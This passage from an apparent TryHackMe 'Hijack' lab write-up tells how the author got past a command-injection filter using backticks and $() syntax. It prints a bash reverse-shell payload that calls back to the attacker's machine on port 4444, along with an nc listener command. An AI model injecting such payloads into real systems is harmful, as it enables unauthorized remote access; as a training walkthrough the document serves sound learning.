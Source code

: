 To dig deeper, I checked a GitHub repo with a list of command injection payloads and started going through them. After some testing, I found that backticks (`) and subshell syntax ($() ) were not being filtered. That meant I could still inject commands using those methods, even with some characters blocked.

![Hijack](/assets/2025/THM/Hijack/12.png)

 I crafted a payload using `bash -c` to get a reverse shell. Here's the payload I used:

[pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```bash
`bash -c "bash -i >& /dev/tcp/<my-machine-ip>/4444 0>&1"`
```
I pasted that into the input field and submitted it. Before that, I had a listener running on my machine:

```bash
nc -lvnp 4444
```
As soon as I submitted the payload, I got a reverse shell connection back from the target.

![Hijack](/assets/2025/THM/Hijack/13.png)
